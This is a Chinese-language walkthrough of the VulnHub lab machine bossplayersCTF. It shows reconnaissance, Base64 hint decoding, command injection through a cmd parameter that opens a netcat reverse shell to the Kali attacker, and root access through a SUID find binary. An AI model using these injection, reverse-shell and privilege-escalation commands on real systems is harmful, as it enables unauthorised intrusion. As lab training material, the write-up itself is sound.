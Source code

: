 #bossplayersCTF

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：bossplayers（IP：192.168.56.101）

下载：https://www.vulnhub.com/entry/bossplayersctf-1,375/

## Let's go

```
nmap -A 192.168.56.101
```

![](./img/bossplayers-01.png)

```
dirb http://192.168.56.101/
```

![](./img/bossplayers-02.png)

> **浏览后发现Base64编码,为什么判断是Base64呢?请看下面**

![](./img/bossplayers-03.png)![](/img/bossplayers-04.png)

```
echo 'bG9sIHRyeSBoYXJkZXIgYnJvCg==' | base64 -d
```

![](./img/bossplayers-05.png)

> **翻译为 "哈哈，再努力点，兄弟" , 看来方向错了**
>
> **我们回去首页，看看还有什么线索。功夫不负有心人**

![](./img/bossplayers-06.png)

```
echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d
echo 'ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K' | base64 -d
echo 'd29ya2luZ2lucHJvZ3Jlc3MucGhwCg==' | base64 -d
```

![](./img/bossplayers-07.png)

> **感觉像在提示，我们试一下能不能使用命令**

![](./img/bossplayers-08.png)![](./img/bossplayers-09.png)

```
nc -lp 4444
http://192.168.56.101/workinginprogress.php?cmd=nc 192.168.56.102 4444 -e /bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
find / -perm -u=s -type f 2>/dev/null
```

![](./img/bossplayers-10.png)![](./img/bossplayers-11.png)

> **搜索具有SUID权限的文件,发现find命令具有此权限,我们使用find提权**

```
find / -name test -exec /bin/sh -p \;
cd /root
cat root.txt
echo 'Y29uZ3JhdHVsYXRpb25zCg==' | base64 -d
```

![](./img/bossplayers-12.png)